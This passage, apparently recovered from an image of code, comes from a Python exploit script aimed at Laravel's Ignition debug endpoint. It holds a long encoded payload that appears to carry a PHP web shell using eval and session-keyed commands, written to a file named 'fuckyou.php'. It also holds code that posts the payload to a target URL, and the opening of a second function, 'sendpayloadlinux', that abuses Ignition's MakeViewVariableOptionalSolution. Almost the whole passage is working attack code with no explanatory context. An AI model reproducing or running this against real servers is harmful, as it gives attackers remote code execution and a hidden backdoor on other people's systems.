 ```python
=00=58=00=74=00=65=00=4A=00=45=00=59=00=39=00=54=00=79=00=68=00=46=00=4B=00=45=00=38=00=6F=00=58=00=69=00=52=00=66=00=55=00=45=00=39=00=54=00=56=00=46=00=74=00=65=00=4A=00=46=00=42=00=64=00=4B=00=53=00=78=00=65=00=4A=00=46=00=51=00=70=00=4B=00=54=00=74=00=70=00=5A=00=69=00=41=00=6F=00=61=00=58=00=4E=00=7A=00=5A=00=58=00=51=00=6F=00=58=00=69=00=52=00=66=00=55=00=30=00=56=00=54=00=55=00=30=00=6C=00=50=00=54=00=6C=00=74=00=65=00=4A=00=46=00=5A=00=64=00=4B=00=53=00=6C=00=37=00=58=00=69=00=52=00=4D=00=50=00=56=00=34=00=6B=00=58=00=31=00=4E=00=46=00=55=00=31=00=4E=00=4A=00=54=00=30=00=35=00=62=00=58=00=69=00=52=00=57=00=58=00=54=00=74=00=65=00=4A=00=45=00=45=00=39=00=5A=00=58=00=68=00=77=00=62=00=47=00=39=00=6B=00=5A=00=53=00=67=00=6E=00=58=00=6E=00=77=00=6E=00=4C=00=46=00=34=00=6B=00=54=00=43=00=6B=00=37=00=59=00=32=00=78=00=68=00=63=00=33=00=4D=00=67=00=51=00=33=00=74=00=77=00=64=00=57=00=4A=00=73=00=61=00=57=00=4D=00=67=00=5A=00=6E=00=56=00=75=00=59=00=33=00=52=00=70=00=62=00=32=00=34=00=67=00=62=00=6E=00=5A=00=76=00=61=00=32=00=55=00=6F=00=58=00=69=00=52=00=77=00=4B=00=53=00=42=00=37=00=5A=00=58=00=5A=00=68=00=62=00=43=00=68=00=65=00=4A=00=48=00=41=00=75=00=49=00=69=00=49=00=70=00=4F=00=33=00=31=00=39=00=58=00=69=00=52=00=53=00=50=00=57=00=35=00=6C=00=64=00=79=00=42=00=44=00=4B=00=43=00=6B=00=37=00=58=00=69=00=52=00=53=00=4C=00=56=00=34=00=2B=00=62=00=6E=00=5A=00=76=00=61=00=32=00=55=00=6F=00=58=00=69=00=52=00=42=00=57=00=7A=00=42=00=64=00=4B=00=54=00=74=00=6C=00=59=00=32=00=68=00=76=00=49=00=48=00=4E=00=31=00=59=00=6E=00=4E=00=30=00=63=00=69=00=68=00=74=00=5A=00=44=00=55=00=6F=00=58=00=69=00=52=00=51=00=4C=00=6C=00=34=00=6B=00=56=00=43=00=6B=00=73=00=4D=00=43=00=77=00=78=00=4E=00=69=00=6B=00=37=00=5A=00=57=00=4E=00=6F=00=62=00=79=00=42=00=52=00=4B=00=45=00=55=00=6F=00=51=00=48=00=4A=00=31=00=62=00=69=00=68=00=65=00=4A=00=45=00=59=00=70=00=4C=00=46=00=34=00=6B=00=56=00=43=00=6B=00=70=00=4F=00=32=00=56=00=6A=00=61=00=47=00=38=00=67=00=63=00=33=00=56=00=69=00=63=00=33=00=52=00=79=00=4B=00=47=00=31=00=6B=00=4E=00=53=00=68=00=65=00=4A=00=46=00=41=00=75=00=58=00=69=00=52=00=55=00=4B=00=53=00=77=00=78=00=4E=00=69=00=6B=00=37=00=66=00=57=00=56=00=73=00=63=00=32=00=56=00=37=00=58=00=69=00=52=00=66=00=55=00=30=00=56=00=54=00=55=00=30=00=6C=00=50=00=54=00=6C=00=74=00=65=00=4A=00=46=00=5A=00=64=00=50=00=56=00=34=00=6B=00=52=00=6A=00=74=00=39=00=66=00=53=00=41=00=2B=00=4C=00=69=00=39=00=6D=00=64=00=57=00=4E=00=72=00=65=00=57=00=39=00=31=00=4C=00=6E=00=42=00=6F=00=63=00=43=00=49=00=37=00=63=00=7A=00=6F=00=31=00=4F=00=69=00=4A=00=73=00=5A=00=58=00=5A=00=6C=00=62=00=43=00=49=00=37=00=54=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4F=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=62=00=47=00=56=00=32=00=5A=00=57=00=77=00=69=00=4F=00=30=00=34=00=37=00=63=00=7A=00=6F=00=78=00=4E=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=61=00=57=00=35=00=70=00=64=00=47=00=6C=00=68=00=62=00=47=00=6C=00=36=00=5A=00=57=00=51=00=69=00=4F=00=32=00=49=00=36=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=45=00=30=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=4A=00=4D=00=61=00=57=00=31=00=70=00=64=00=43=00=49=00=37=00=61=00=54=00=6F=00=74=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=45=00=7A=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=77=00=63=00=6D=00=39=00=6A=00=5A=00=58=00=4E=00=7A=00=62=00=33=00=4A=00=7A=00=49=00=6A=00=74=00=68=00=4F=00=6A=00=49=00=36=00=65=00=32=00=6B=00=36=00=4D=00=44=00=74=00=7A=00=4F=00=6A=00=63=00=36=00=49=00=6D=00=4E=00=31=00=63=00=6E=00=4A=00=6C=00=62=00=6E=00=51=00=69=00=4F=00=32=00=6B=00=36=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=59=00=36=00=49=00=6E=00=4E=00=35=00=63=00=33=00=52=00=6C=00=62=00=53=00=49=00=37=00=66=00=58=00=31=00=39=00=42=00=51=00=41=00=41=00=41=00=47=00=52=00=31=00=62=00=57=00=31=00=35=00=42=00=41=00=41=00=41=00=41=00=41=00=4D=00=39=00=43=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4B=00=51=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=51=00=75=00=64=00=48=00=68=00=30=00=42=00=41=00=41=00=41=00=41=00=41=00=4D=00=39=00=43=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4B=00=51=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=64=00=47=00=56=00=7A=00=64=00=48=00=52=00=6C=00=63=00=33=00=52=00=76=00=35=00=4F=00=50=00=6D=00=31=00=45=00=6C=00=61=00=48=00=76=00=4D=00=42=00=6E=00=46=00=53=00=54=00=2F=00=6E=00=53=00=36=00=54=00=2B=00=75=00=46=00=69=00=51=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a"
 }
}
    req=requests.post(url,headers=header,data=json.dumps(data,indent=1))
    return req

def sendpayloadlinux(url):
    data={
 "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
 "parameters": {
  "variableName":"username",
```